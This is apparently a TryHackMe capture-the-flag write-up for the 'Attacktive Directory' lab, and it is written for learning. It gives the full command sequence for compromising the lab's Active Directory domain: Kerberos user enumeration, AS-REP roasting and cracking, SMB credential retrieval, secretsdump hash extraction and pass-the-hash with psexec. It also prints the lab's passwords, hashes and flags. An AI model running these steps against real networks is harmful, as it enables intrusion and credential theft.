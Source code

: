 # 🧪 TryHackMe: Attacktive Directory

**Platform:** TryHackMe  
**IP Address:** `10.201.3.44`  
**Difficulty:** Easy  
**Category:** Active Directory / Windows

---

## 🧭 Overview

A beginner-friendly Windows Active Directory machine focused on Kerberos pre-auth attacks, password cracking, SMB enumeration, and eventual domain compromise using extracted credentials. Classic enumeration-to-own workflow, with useful tooling reminders along the way.

---

## 🔍 Enumeration

### 🔎 RustScan

```bash
rustscan --ulimit 5000 -a $target -- -sC -sV -Pn -oN nmap_full
```

**Ports Identified:**
- LDAP: 389, 636, 3268, 3269
- Kerberos: 88, 464
- WinRM: 5985
- SMB: 139, 445
- RDP: 3389
- HTTP: 80
- DNS: 53
- RPC: Multiple high ports

### 🔎 Kerberos User Enumeration

```bash
kerbrute userenum userlist.txt --dc $target -d spookysec.local
```

**Valid Users Found:**
- james  
- svc-admin  
- James  
- robin  
- darkstar  
- administrator  
- backup  
- paradox  

---

## 💥 Exploitation

### 🔐 AS-REP Roasting

```bash
GetNPUsers.py spookysec.local/ -no-pass -usersfile userlist.txt -dc-ip $target
```

Found hash for: `svc-admin@SPOOKYSEC.LOCAL`

### 🔓 Cracking with John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# Password: management2005
```

### 🔁 WinRM (Failed), SMB (Success)

```bash
netexec winrm $target -u 'svc-admin' -p 'management2005'
netexec smb $target -u 'svc-admin' -p 'management2005' --shares
```

### 📁 Downloading Credentials via SMB

```bash
smbclient -U 'svc-admin' \\$target\backup
# File: backup_credentials.txt
echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 -d
# => backup@spookysec.local:backup2517860
```

### 🖥️ RDP with Backup User

```bash
xfreerdp3 /v:$target /u:"backup" /p:"backup2517860"
# User flag: TryHackMe{K3rb3r0s_Pr3_4uth}
```

---

## 🚪 Privilege Escalation

### 🧂 Secrets Dump

```bash
secretsdump.py spookysec.local/backup:'backup2517860'@$target
# Extracted Administrator hash: aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

### 🛠️ Psexec

```bash
psexec.py spookysec.local/administrator@$target -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

**Root Flag:**  
```text
TryHackMe{4ctiveD1rectoryM4st3r}
```

---

## 🧠 Lessons Learned

- Use `kerbrute` to quickly confirm usernames for Kerberos attacks.
- `GetNPUsers.py` + `john` is the go-to combo for AS-REP Roasting.
- `netexec` is a brilliant tool for testing WinRM, SMB, RDP, etc.
- RDP can sometimes be available even when WinRM isn’t.
- Reuse of credentials in readable SMB shares can lead to escalation.
- Always dump hashes and test pass-the-hash routes for domain admin access.

---

## 🛠️ Toolbox

| Tool           | Purpose                                |
|----------------|----------------------------------------|
| `rustscan`     | Fast port discovery                    |
| `kerbrute`     | Kerberos username enumeration          |
| `GetNPUsers.py`| AS-REP Roasting                        |
| `john`         | Offline password cracking              |
| `netexec`      | Service access testing (smb, winrm)    |
| `smbclient`    | Manual file download                   |
| `xfreerdp3`    | RDP client                             |
| `secretsdump.py`| Hash dump via DRSUAPI                 |
| `psexec.py`    | Remote command execution using hashes  |

---

![Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/THM/proofs/attacktivedirectory.png)